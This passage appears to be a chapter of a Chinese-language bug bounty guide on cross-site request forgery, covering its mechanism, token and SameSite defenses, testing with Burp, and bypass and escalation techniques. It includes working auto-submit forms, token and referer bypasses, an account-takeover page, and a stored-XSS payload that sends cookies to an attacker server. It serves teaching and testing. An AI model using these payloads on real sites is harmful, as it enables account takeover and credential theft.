




# 跨站请求伪造



*跨站请求伪造（**CSRF**）* 是一种客户端技术，用于攻击 Web 应用的其他用户。通过 CSRF，攻击者可以发送伪装成受害者请求的 HTTP 请求，代表受害者执行不希望发生的操作。例如，攻击者可以在没有你许可的情况下更改你的密码或从你的银行账户转账。

CSRF 攻击专门针对那些改变状态的请求，如发送推文和修改用户设置，而不是暴露敏感用户信息的请求。这是因为攻击者无法读取在 CSRF 攻击中伪造请求的响应。让我们深入了解这种攻击是如何工作的。

## 机制

记住在第三章提到的，大多数现代 Web 应用通过使用会话 cookie 来验证用户并管理用户会话。当你首次登录网站时，Web 服务器会建立一个新会话：它将一个与该会话关联的会话 cookie 发送给你的浏览器，而这个 cookie 向服务器证明了你的身份。你的浏览器会存储与该网站相关的会话 cookie，并在你发送的每个后续请求中都将其一同发送。所有这些都是自动进行的，无需用户的干预。

例如，当你登录 Twitter 时，Twitter 服务器通过名为 `Set-Cookie` 的 HTTP 响应头将会话 cookie 发送给你的浏览器：

```
Set-Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*;
```

你的浏览器接收会话 cookie，将其存储，并在你每次向 Twitter 发送请求时通过 `Cookie` HTTP 请求头将其发送。这就是服务器如何知道你的请求是合法的：

```
Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*;
```

拥有会话 cookie 后，你可以执行认证过的操作，例如访问机密信息、更改密码或发送私人消息，而无需重新输入密码。要获取你自己的会话 cookie，可以拦截你登录后浏览器发送到网站的请求。

假设 Twitter 网页上有一个“发送推文”HTML 表单。用户可以通过这个表单输入推文，并点击提交按钮发送它们（见图 9-1）。



图 9-1：一个示例 HTML 表单，允许用户发送推文

请注意，Twitter 实际上并没有使用这个表单（且 Twitter 的实际“发送推文”功能并不容易受到 CSRF 攻击）。示例 HTML 表单的源代码如下：

```
<html>1 <h1>Send a tweet.</h1>2 <form method="POST" action="https://twitter.com/send_a_tweet"> 3 <input type="text" name="tweet_content" value="Hello world!"> 4 <input type="submit" value="Submit"> </form>
</html>
```

`<h1>`标签表示一级 HTML 标题 1，而`<form>`标签定义了 HTML 表单的开始和结束 2。表单的`method`属性是`POST`，`action`属性是`https://twitter.com/send_a_tweet`。这意味着当用户点击提交时，表单将向*https://twitter.com/send_a_tweet*端点提交一个 POST 请求。接下来，一个`<input>`标签定义了一个文本输入框，默认值为`Hello world!`。当表单被提交时，任何用户在此字段中的输入将作为名为`tweet_content` 3 的 POST 参数发送。第二个输入标签定义了`Submit`按钮 4。当用户点击此按钮时，表单将被提交。

当你点击页面上的提交按钮时，浏览器将向*https://twitter.com/send_a_tweet*发送一个 POST 请求。浏览器会在请求中包含你的 Twitter 会话 cookie。你可以在代理中看到由表单生成的请求。它应该类似于以下内容：

```
POST /send_a_tweet
Host: twitter.com
Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*
(POST request body)
tweet_content="Hello world!"
```

这个功能存在一个漏洞：任何网站，而不仅仅是 Twitter，都可以发起这个请求。假设一个攻击者托管了自己的网页，显示了一个像图 9-2 这样的 HTML 表单。



图 9-2：攻击者利用 CSRF 漏洞的 HTML 表单示例

该页面的源代码如下：

```
<html> <h1>Please click Submit.</h1> <form method="POST" action="https://twitter.com/send_a_tweet" id="csrf-form"> <input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!"> <input type='submit' value="Submit"> </form>
</html>
```

当你点击此页面上的提交按钮时，浏览器将发送一个 POST 请求。由于浏览器会自动在请求中包含你的 Twitter 会话 cookie，Twitter 会将请求视为有效，导致你的账户发送推文`Follow @vickieli7 on Twitter!`。以下是相应的请求：

```
POST /send_a_tweet
Host: twitter.com
Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*(POST request body)
tweet_content="Follow @vickieli7 on Twitter!"
```

即使这个请求不是来自 Twitter，Twitter 仍然会将其识别为有效，因为它包含了你的真实 Twitter 会话 cookie。每次点击恶意页面上的提交按钮时，这个攻击都会导致你发送推文。

的确，这个攻击页面并不非常有用：它需要受害者点击按钮，而大多数用户可能不会这么做。攻击者如何使这个漏洞更加可靠呢？实际上，一个恶意的 CSRF 页面可能更像这样：

```
<html> **<iframe style="display:none" name="csrf-frame">** 1 <form method="POST" action="https://twitter.com/send_a_tweet"  target="csrf-frame" id="csrf-form"> 2 <input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!"> <input type='submit' value="Submit"> </form> **</iframe>** **<script>document.getElementById("csrf-form").submit();</script>** 3
</html>
```

这段 HTML 将表单放在一个不可见的 iframe 中，以便将其隐藏在用户的视野之外。记得在第八章提到过，*iframe*是一个 HTML 元素，它将另一个文档嵌入到当前的 HTML 文档中。这个特定的 iframe 的样式设置为`display:none`，意味着它不会显示在页面上，从而使表单变得不可见。然后，脚本标签中的 JavaScript 代码 3 将在没有用户交互的情况下提交 ID 为`csrf-form` 2 的表单。代码通过引用 ID `csrf-form`来获取 HTML 表单。接着，代码调用`submit()`方法来提交表单。通过这个新的攻击页面，任何访问恶意网站的受害者都会被迫发送推文。

攻击者实际能够利用真实的 CSRF 漏洞做什么，取决于漏洞出现的位置。例如，假设一个请求清空用户在线购物车的请求存在 CSRF 漏洞。在实际攻击中，这个漏洞最多会给网站用户带来一些困扰。它不会造成重大经济损失或身份盗用。

另一方面，一些 CSRF 攻击可能导致更严重的问题。例如，如果在更改用户密码的请求中存在 CSRF 漏洞，攻击者可以在用户不知情的情况下更改其他用户的密码，并接管他们的整个账户！而且，当 CSRF 漏洞出现在处理用户财务功能的地方，比如账户余额转账时，攻击者可能会在受害者的银行账户中进行未经授权的余额转账。你也可以利用 CSRF 攻击来触发注入漏洞，如 XSS 和命令注入。

## 防护

防止 CSRF 攻击的最佳方法是使用*CSRF 令牌*。应用程序可以在网站的每个表单中嵌入这些随机且不可预测的字符串，浏览器会在每个改变状态的请求中发送这些字符串。当请求到达服务器时，服务器可以验证令牌，以确保请求确实来自其网站。这个 CSRF 令牌应当对每个会话和/或 HTML 表单唯一，这样攻击者就无法猜测令牌的值并将其嵌入到他们的网站上。令牌应该具有足够的熵，以便不能通过分析不同会话的令牌来推导出来。

服务器生成随机的 CSRF 令牌，并将正确的 CSRF 令牌嵌入到合法网站的表单中。注意，用于指定 CSRF 令牌的新输入字段：

```
<form method="POST" action="https://twitter.com/send_a_tweet"> <input type="text" name="tweet_content" value="Hello world!"> ** <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b">** <input type="submit" value="Submit">
</form>
```

Twitter 的服务器可能要求浏览器在发送请求时提供正确的`csrf_token` POST 参数值，才能确保请求成功。如果`csrf_token`的值缺失或不正确，服务器会认为请求是伪造的并拒绝它。

下面是生成的 POST 请求：

```
POST /send_a_tweet
Host: twitter.com
Cookie: session_cookie=`YOUR_TWITTER_SESSION_COOKIE`
(POST request body)
tweet_content="Hello world!"&**csrf_token=871caef0757a4ac9691aceb9aad8b65b**
```

许多框架都内置了 CSRF 令牌，因此通常你可以直接使用框架的实现。

除了实现 CSRF 令牌以确保请求的真实性外，另一种防护 CSRF 攻击的方法是使用`SameSite` Cookies。`Set-Cookie`头允许你使用多个可选标志来保护用户的 Cookies，其中之一就是`SameSite`标志。当一个 Cookie 的`SameSite`标志被设置为`Strict`时，客户端浏览器不会在跨站请求中发送该 Cookie：

```
Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Strict
```

`SameSite`标志的另一个可能设置是`Lax`，它告诉客户端浏览器仅在导致顶级导航的请求中发送 Cookie（当用户主动点击链接并导航到站点时）。此设置确保当跨站点请求是有意的时，用户仍然能够访问你站点上的资源。例如，如果你从第三方网站导航到 Facebook，你的 Facebook 登录信息将被发送。但如果第三方网站发起 POST 请求到 Facebook 或试图将 Facebook 内容嵌入 iframe 中，则不会发送 Cookies：

```
Set-Cookie: PHPSESSID=UEhQU0VTU0lE; Max-Age=86400; Secure; HttpOnly; SameSite=Lax
```

指定`SameSite`属性对 CSRF 有很好的防护作用，因为`Strict`和`Lax`设置都会阻止浏览器在跨站点表单 POST 请求、AJAX 请求、iframe 和图片标签中发送 Cookies。这使得经典的 CSRF 隐形表单攻击变得无效。

在 2020 年，Chrome 和其他几个浏览器将`SameSite=Lax`作为默认 Cookie 设置，如果 Web 应用程序没有显式设置它。因此，即使 Web 应用程序没有实施 CSRF 保护，攻击者也无法通过 POST CSRF 攻击使用 Chrome 攻击受害者。经典 CSRF 攻击的有效性可能会大大降低，因为 Chrome 拥有最大的 Web 浏览器市场份额。在 Firefox 中，`SameSite`的默认设置是一个需要启用的功能。你可以通过进入`about:config`并将`network.cookie.sameSite.laxByDefault`设置为`true`来启用它。

即使浏览器采用`SameSite-`默认策略，某些情况下仍然可能发生 CSRF 攻击。首先，如果站点允许使用 GET HTTP 方法进行更改状态的请求，第三方网站可以通过创建带有 GET 请求的 CSRF 攻击用户。例如，如果站点允许你通过 GET 请求更改密码，你可以发布一个类似这样的链接，诱使用户点击：*https://email.example.com/password_change?new_password=abc123*。

因为点击这个链接会导致顶级导航，用户的会话 Cookie 将包含在 GET 请求中，CSRF 攻击将成功：

```
GET /password_change?new_password=abc123
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
```

在另一种情况下，站点手动将 Cookie 的`SameSite`属性设置为`None`。一些 Web 应用程序需要第三方网站发送跨站点的身份验证请求。在这种情况下，你可能会显式地将会话 Cookie 的`SameSite`设置为`None`，允许跨源发送 Cookie，这样传统的 CSRF 攻击仍然有效。最后，如果受害者使用的浏览器默认没有将`SameSite`属性设置为`Lax`（包括 Firefox、Internet Explorer 和 Safari），那么如果目标应用没有实施严格的 CSRF 保护，传统的 CSRF 攻击仍然有效。

本章后面我们会探讨绕过 CSRF 保护的其他方法。现在，只需记住：当网站没有为每个状态变化请求实施 `SameSite` cookies 或其他 CSRF 保护机制时，如果用户没有使用 `SameSite`-by-default 浏览器，该请求就容易受到 CSRF 攻击。尽管采用了 `SameSite`-by-default 浏览器，网站仍需负责实施 CSRF 保护。

## 寻找 CSRF 攻击

CSRF 攻击很常见且容易利用。要寻找它们，首先要发现没有被 CSRF 保护机制屏蔽的状态变化请求。以下是一个三步流程来实现这一目标。请记住，由于像 Chrome 这样的浏览器提供自动的 CSRF 保护，因此需要使用其他浏览器进行测试，比如 Firefox。

### 第一步：发现状态变化的操作

改变用户数据的操作称为*状态变化操作*。例如，发送推文和修改用户设置都是状态变化操作。发现 CSRF 攻击的第一步是登录到目标网站并浏览，寻找任何会改变数据的活动。

例如，假设你正在测试 *email.example.com*，它是 *example.com* 的一个子域名，用于处理电子邮件。浏览应用程序的所有功能，点击所有链接。使用像 Burp 这样的代理拦截生成的请求，并记录它们的 URL 端点。

一一记录下这些端点，按如下列表的方式，以便稍后回访和测试：

**状态变化请求在***email.example.com*****

+   更改密码：*email.example.com/password_change*

    POST 请求

    请求参数：`new_password`

+   发送电子邮件：*email.example.com/send_email*

    POST 请求

    请求参数：`draft_id`, `recipient_id`

+   删除电子邮件：*email.example.com/delete_email*

    POST 请求

    请求参数：`email_id`

### 第二步：寻找缺乏 CSRF 保护的地方

现在访问这些端点，测试它们是否存在 CSRF 漏洞。首先，打开 Burp Suite，并在 Proxy 标签页中开始拦截所有请求。切换**拦截**按钮，直到它显示**拦截已开启**（图 9-3）。



图 9-3：设置为“拦截已开启”，以捕捉浏览器流量。点击***转发***按钮将当前请求转发到服务器。

让 Burp 在后台运行，记录与目标网站相关的其他流量，同时你主动寻找 CSRF 攻击。继续点击**转发**按钮，直到你遇到与状态变化操作相关的请求。例如，假设你正在测试你发现的密码更改功能是否容易受到 CSRF 攻击。你已经在 Burp 代理中截取了请求：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123
```

在拦截的请求中，寻找 CSRF 保护机制的迹象。使用窗口底部的搜索栏，查找 `"csrf"` 或 `"state"` 字符串。CSRF 令牌除了作为 POST 请求体参数外，还可能出现在请求头、cookie 或 URL 参数中。例如，它们可能出现在像这样的 cookie 中：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; **csrf_token=871caef0757a4ac9691aceb9aad8b65b**
(POST request body)
new_password=abc123
```

即使你在端点发现了 CSRF 保护，你仍然可以尝试各种绕过保护的技巧。我将在本章后面讨论这些技巧。

### 第 3 步：确认漏洞

找到可能存在漏洞的端点后，你需要确认这个漏洞。你可以通过制作一个恶意的 HTML 表单来模仿合法站点发送的请求，从而完成这一确认。

在文本编辑器中制作一个这样的 HTML 页面。确保将文件保存为 *.html* 扩展名！这样，默认情况下，你的计算机会用浏览器打开该文件：

```
<html> <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> 1 <input type="text" name="new_password" value="abc123"> 2 <input type="submit" value="Submit"> 3 </form> <script>document.getElementById("csrf-form").submit();</script> 4
</html>
```

`<form>` 标签指定你正在定义一个 HTML 表单。HTML 表单的 `method` 属性指定了由表单生成的请求的 HTML 方法，`action` 属性指定了请求将被发送到的位置 1。该表单会生成一个 POST 请求，目标地址是 *https://email.example.com/password_change*。接下来是两个输入标签。第一个定义了一个名为 `new_password`，值为 `abc123` 的 POST 参数 2。第二个指定了一个 `Submit` 按钮 3。最后，页面底部的 `<script>` 标签包含了提交表单的 JavaScript 代码 4。

在浏览器中打开 HTML 页面，并确保已登录到目标站点。这个表单将生成类似下面的请求：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123
```

检查你的密码是否已在 *email.example.com* 上更改为 `abc123`。换句话说，检查目标服务器是否已接受由你的 HTML 页面生成的请求。目的是证明一个外部网站可以代表用户执行改变状态的操作。

最后，一些网站可能没有 CSRF 令牌，但通过检查请求的 referer 头信息是否与合法 URL 匹配，仍然能防止 CSRF 攻击。检查 referer 头有助于防止 CSRF 攻击，因为这些头信息帮助服务器过滤掉来自外部网站的请求。通过这种方式确认 CSRF 漏洞，可以帮助你排除那些基于 referer 的 CSRF 保护的端点。

然而，开发人员必须记住，referer 头信息可以被攻击者篡改，并且并非万无一失的缓解解决方案。开发人员应该实现 CSRF 令牌和 `SameSite` 会话 cookie 的组合，以获得最佳保护。

## 绕过 CSRF 保护

现代网站变得越来越安全。如今，当你检查涉及敏感操作的请求时，它们通常会有某种形式的 CSRF 保护。然而，保护的存在并不意味着保护是全面的、正确实现的，也不代表它无法绕过。如果保护措施不完整或有缺陷，你仍然可以通过对有效负载做一些修改来实现 CSRF 攻击。让我们来谈谈你可以用来绕过网站上实现的 CSRF 保护的技巧。

### 利用点击劫持

如果该端点使用 CSRF 令牌，但页面本身容易受到点击劫持（这种攻击在第八章中讨论过），你可以利用点击劫持来实现与 CSRF 相同的效果。

这是因为，在点击劫持攻击中，攻击者使用 iframe 将页面嵌入恶意站点，同时让更改状态的请求从合法站点发起。如果包含漏洞端点的页面容易受到点击劫持攻击，你就可以通过更多的努力和 CSS 技巧，达到类似于 CSRF 攻击的效果。

通过使用类似以下的 HTML 页面，检查页面是否存在点击劫持。你可以通过将其 URL 指定为`src`属性，嵌入一个 iframe 中。然后，在浏览器中渲染该 HTML 页面。如果更改状态的功能所在的页面出现在你的 iframe 中，那么该页面就容易受到点击劫持攻击：

```
<html> <head> <title>Clickjack test page</title> </head> <body> <p>This page is vulnerable to clickjacking if the iframe is not blank!</p> <iframe src="PAGE_URL" width="500" height="500"></iframe> </body>
</html>
```

然后，你可以利用点击劫持诱使用户执行更改状态的操作。有关这种攻击的工作原理，请参阅第八章。

### 更改请求方法

你可以使用的另一个绕过 CSRF 保护的技巧是更改请求方法。有时网站会接受同一接口的多种请求方法，但可能并没有为每种方法设置保护。通过更改请求方法，你可能能够在不遇到 CSRF 保护的情况下执行操作。

例如，假设密码更改接口的 POST 请求受 CSRF 令牌保护，像这样：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123&**csrf_token=871caef0757a4ac9691aceb9aad8b65b**
```

你可以尝试将相同的请求作为 GET 请求发送，看看是否能在不提供 CSRF 令牌的情况下绕过保护：

```
**GET /password_change?new_password=abc123**
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
```

在这种情况下，你的恶意 HTML 页面可以简单地像这样：

```
<html> 
</html>
```

HTML 的``标签从外部源加载图像。它将向其`src`属性中指定的 URL 发送一个 GET 请求。

如果在加载该 HTML 页面后发生密码更改，你可以确认该端点通过 GET 请求存在 CSRF 漏洞。另一方面，如果原始操作通常使用 GET 请求，你可以尝试将其转换为 POST 请求。

### 绕过存储在服务器上的 CSRF 令牌

但是，如果点击劫持和更改请求方法都不起作用怎么办？如果网站通过令牌实现 CSRF 保护，以下是你可以尝试的几个方法。

仅仅因为网站使用了 CSRF 令牌，并不意味着它正确地验证了这些令牌。如果网站没有以正确的方式验证 CSRF 令牌，你仍然可以通过对恶意 HTML 页面进行一些修改来实现 CSRF 攻击。

首先，尝试删除令牌参数或发送空的令牌参数。例如，以下将发送一个没有`csrf_token`参数的请求：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123
```

你可以使用如下的 HTML 表单来生成这个请求：

```
<html> <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

下一个请求将发送一个空的`csrf_token`参数：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123&**csrf_token=**
```

你可以通过使用以下 HTML 表单来生成这样的有效载荷：

```
<html> <form method="POST" action="https://email.example.com/password_change" id"csrf-form"> <input type="text" name="new_password" value="abc123"> <input type="text" name="csrf_token" value=""> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

删除令牌参数或发送空令牌参数通常有效，因为常见的应用程序逻辑错误。应用程序有时只会在令牌存在时，或者令牌参数不为空时检查令牌的有效性。不安全的应用程序验证机制的代码可能大致如下所示：

```
def validate_token():1 if (request.csrf_token == session.csrf_token): pass else:2 throw_error("CSRF token incorrect. Request rejected.")
[...]
def process_state_changing_action(): if request.csrf_token: validate_token()3 execute_action()
```

这段 Python 代码首先检查 CSRF 令牌是否存在 1。如果存在，代码将继续验证令牌。如果令牌有效，代码将继续执行。如果令牌无效，代码将停止执行并产生错误 2。另一方面，如果令牌不存在，代码将跳过验证，直接执行操作 3。在这种情况下，发送没有令牌的请求或将令牌设置为空值，可能意味着服务器根本不会尝试验证令牌。

你也可以尝试使用另一个会话的 CSRF 令牌提交请求。之所以有效，是因为一些应用程序可能只检查令牌是否有效，而不确认它是否属于当前用户。假设受害者的令牌是`871caef0757a4ac9691aceb9aad8b65b`，而你的令牌是`YOUR_TOKEN`。尽管很难获得受害者的令牌，但你可以轻松获得自己的令牌，所以可以尝试用自己的令牌替换合法的令牌。如果你不想使用自己的令牌，还可以创建另一个测试账户来生成令牌。例如，你的利用代码可能如下所示：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`
(POST request body)
new_password=abc123&csrf_token=`YOUR_TOKEN`
```

错误的应用程序逻辑可能如下所示：

```
def validate_token(): if request.csrf_token:1  if (request.csrf_token in valid_csrf_tokens): pass else: throw_error("CSRF token incorrect. Request rejected.")
[...] def process_state_changing_action(): validate_token()2 execute_action()
```

这段 Python 代码首先验证 CSRF 令牌。如果令牌在当前有效令牌列表中 1，执行将继续，并执行改变状态的操作 2。否则，将产生错误并停止执行。如果是这种情况，你可以将自己的 CSRF 令牌插入到恶意请求中！

### 绕过双重提交 CSRF 令牌

网站通常使用*双重提交 cookie*作为防范 CSRF 的手段。在这种技术中，改变状态的请求包含与 cookie 和请求参数中相同的随机令牌，服务器检查这两个值是否相等。如果值匹配，请求被视为合法请求。否则，应用程序将拒绝该请求。例如，以下请求被认为是有效的，因为用户的 cookie 中的`csrf_token`与 POST 请求参数中的`csrf_token`匹配：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; csrf_token=871caef0757a4ac9691aceb9aad8b65b
(POST request body)
new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

以下示例会失败。请注意，用户 cookies 中的 `csrf_token` 与 POST 请求参数中的 `csrf_token` 不同。在双重提交令牌验证系统中，令牌本身是否有效并不重要。服务器只检查 cookies 中的令牌是否与请求参数中的令牌相同：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; **csrf_token=1aceb9aad8b65b871caef0757a4ac969**
(POST request body)
new_password=abc123&**csrf_token=871caef0757a4ac9691aceb9aad8b65b**
```

如果应用程序使用双重提交 cookie 作为其 CSRF 防御机制，那么它可能没有在服务器端记录有效令牌。如果服务器在服务器端记录了 CSRF 令牌，它就可以在令牌发送过来时进行验证，应用程序就不需要使用双重提交 cookie 了。

服务器无法知道它接收到的任何令牌是否真正合法；它只是检查 cookie 中的令牌和请求体中的令牌是否相同。换句话说，这个请求，假如同时在 cookie 和请求参数中都传入相同的虚假值，也会被认为是合法的：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`; **csrf_token=not_a_real_token**
(POST request body)
new_password=abc123&**csrf_token=not_a_real_token**
```

通常，你不应该有权限修改其他用户的 cookies。但如果你能找到一种方法让受害者的浏览器发送一个伪造的 cookie，你就能执行 CSRF 攻击。

该攻击将包括两个步骤：首先，你会使用会话固定技术使受害者的浏览器将你选择的任意值作为 CSRF 令牌 cookie 存储。*会话固定* 是一种允许攻击者选择受害者会话 cookie 的攻击方式。本书中不涉及会话固定攻击，但你可以在 Wikipedia 上阅读相关内容（[`en.wikipedia.org/wiki/Session_fixation`](https://en.wikipedia.org/wiki/Session_fixation)）。然后，你会使用相同的 CSRF 令牌执行 CSRF 攻击，该令牌就是你之前选择作为 cookie 的那个。

### 绕过 CSRF Referer 头检查

如果你的目标站点没有使用 CSRF 令牌，而是检查 referer 头怎么办？服务器可能会验证随状态改变请求一起发送的 referer 头是否是网站允许的域名的一部分。如果是，网站就会执行该请求。否则，它会认为请求是伪造的并拒绝它。你可以做什么来绕过这种保护？

首先，你可以尝试去除 referer 头。就像发送一个空的令牌一样，有时绕过 referer 检查所需要做的就是根本不发送 referer 头。要移除 referer 头，只需在承载你请求表单的页面中添加一个 `<meta>` 标签：

```
<html>**<meta name="referrer" content="no-referrer">** <form method="POST" action="https://email.example.com/password_change" id="csrf-form"> <input type="text" name="new_password" value="abc123"> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

这个特定的 `<meta>` 标签告诉浏览器在生成的 HTTP 请求中不要包含 referer 头。

错误的应用逻辑可能如下所示：

```
def validate_referer(): if (request.referer in allowlisted_domains): pass else: throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action(): if request.referer: validate_referer() execute_action()
```

由于应用程序只在 referer 头存在时验证它，你仅仅通过让受害者的浏览器省略 referer 头，就成功绕过了网站的 CSRF 保护！

你还可以尝试绕过用于验证 referer URL 的逻辑检查。假设应用程序在 referer URL 中查找字符串 `"example.com"`，如果 referer URL 包含该字符串，应用程序会将请求视为合法请求，否则拒绝该请求：

```
def validate_referer(): if request.referer: if ("example.com" in request.referer): pass else: throw_error("Referer incorrect. Request rejected.")
[...]
def process_state_changing_action(): validate_referer() execute_action()
```

在这种情况下，你可以通过将受害者的域名作为子域名放入 referer URL 来绕过 referer 校验。你可以通过创建一个与受害者域名同名的子域，然后将恶意 HTML 托管在该子域上来实现。你的请求看起来像这样：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;**Referer: example.com.attacker.com**
(POST request body)
new_password=abc123
```

你还可以尝试将受害者域名放在 referer URL 的路径名中。你可以通过创建一个与目标域名同名的文件，并将 HTML 页面托管在该文件中来实现：

```
POST /password_change
Host: email.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;**Referer: attacker.com/example.com**(POST request body)
new_password=abc123
```

在你将 HTML 页面上传到正确位置后，加载该页面并查看状态更改操作是否执行。

### 通过使用 XSS 绕过 CSRF 保护

此外，正如我在第六章中提到的，任何 XSS 漏洞都会使 CSRF 保护失效，因为 XSS 允许攻击者窃取合法的 CSRF token，然后通过使用`XMLHttpRequest`伪造请求。攻击者通常会以 XSS 作为启动点，发起 CSRF 攻击，接管管理员账户。

## 升级攻击

一旦发现了 CSRF 漏洞，不要马上报告！这里有一些方法，可以将 CSRF 漏洞升级为严重的安全问题，最大化报告的影响。通常，你需要结合 CSRF 和其他一些小设计缺陷来发现这些漏洞。

### 通过使用 CSRF 泄漏用户信息

CSRF 有时会导致信息泄漏作为副作用。应用程序通常会根据用户偏好发送或披露信息。如果你能通过 CSRF 修改这些设置，就可以为敏感信息泄露铺平道路。

例如，假设 *example.com* 网站每月会向用户指定的电子邮件地址发送账单邮件。这些邮件包含用户的账单信息，包括街道地址、电话号码和信用卡信息。可以通过以下请求来更改发送账单邮件的电子邮件地址：

```
POST /change_billing_email
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
email=NEW_EMAIL&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

不幸的是，这个端点的 CSRF 校验已经破坏，服务器接受空白的 token。即使`csrf_token`字段为空，请求也会成功：

```
POST /change_billing_email
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
email=NEW_EMAIL&**csrf_token=**
```

攻击者可以让受害者通过 CSRF 发送此请求，改变他们账单邮件的接收地址：

```
POST /change_billing_email
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
email=**ATTACKER_EMAIL**&csrf_token=
```

此后，所有未来的账单邮件将会发送到攻击者的电子邮件地址，直到受害者注意到未经授权的更改。一旦账单邮件发送到攻击者的邮箱，攻击者就可以收集敏感信息，如街道地址、电话号码和与账户关联的信用卡信息。

### 通过使用 CSRF 创建存储型自我 XSS

请记住，在第六章中提到过，自 XSS 是一种需要受害者输入 XSS 有效载荷的 XSS 攻击。这些漏洞几乎总是被认为不是问题，因为它们太难利用；要成功攻击需要受害者采取大量行动，因此攻击者不太可能成功。然而，当你将 CSRF 与自 XSS 结合时，你通常可以将自 XSS 转变为存储型 XSS。

例如，假设*example.com*的财务子域名*finance.example.com*允许用户为每个关联的银行账户创建昵称。账户昵称字段容易受到自 XSS 攻击：该字段没有对用户输入进行清理、验证或转义。然而，只有用户自己可以编辑和查看此字段，因此攻击者无法直接触发 XSS。

然而，用于更改账户昵称的端点容易受到 CSRF 攻击。该应用程序没有正确验证 CSRF 令牌的存在，因此仅仅在请求中省略令牌参数就可以绕过 CSRF 保护。例如，这个请求会失败，因为它包含错误的令牌：

```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
&**csrf_token=WRONG_TOKEN**
```

但是这个没有令牌的请求会成功：

```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```

这个请求将改变用户的账户昵称，并在那里存储 XSS 有效载荷。下次用户登录账户并查看他们的仪表板时，他们会触发 XSS。

### 通过使用 CSRF 接管用户账户

有时候，CSRF 甚至可能导致账户接管。这种情况也并不罕见；当 CSRF 漏洞存在于关键功能中，如创建密码、修改密码、更改电子邮件地址或重置密码的代码时，就会发生账户接管问题。

例如，假设除了使用电子邮件地址和密码注册外，*example.com*还允许用户通过社交媒体账户注册。如果用户选择此选项，他们不需要创建密码，因为他们可以直接通过关联的账户登录。但为了给用户提供更多选择，已通过社交媒体注册的用户可以通过以下请求设置新密码：

```
POST /set_password
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
password=XXXXX&csrf_token=871caef0757a4ac9691aceb9aad8b65b
```

由于用户是通过社交媒体账户注册的，他们不需要提供旧密码即可设置新密码，因此，如果此端点的 CSRF 保护失败，攻击者将能够为任何通过社交媒体账户注册且尚未设置密码的用户设置密码。

假设应用程序没有正确验证 CSRF 令牌，并接受空值。以下请求将为任何尚未设置密码的用户设置密码：

```
POST /set_password
Host: example.com
Cookie: session_cookie=`YOUR_SESSION_COOKIE`;
(POST request body)
password=**XXXXX&csrf_token=**
```

现在攻击者所需要做的只是将这个 HTML 页面的链接发布到网站用户常访问的页面上，任何访问该恶意页面的用户都会自动被分配密码：

```
<html> <form method="POST" action="https://email.example.com/set_password" id="csrf-form"> <input type="text" name="new_password" value="this_account_is_now_mine"> <input type="text" name="csrf_token" value=""> <input type='submit' value="Submit"> </form> <script>document.getElementById("csrf-form").submit();</script>
</html>
```

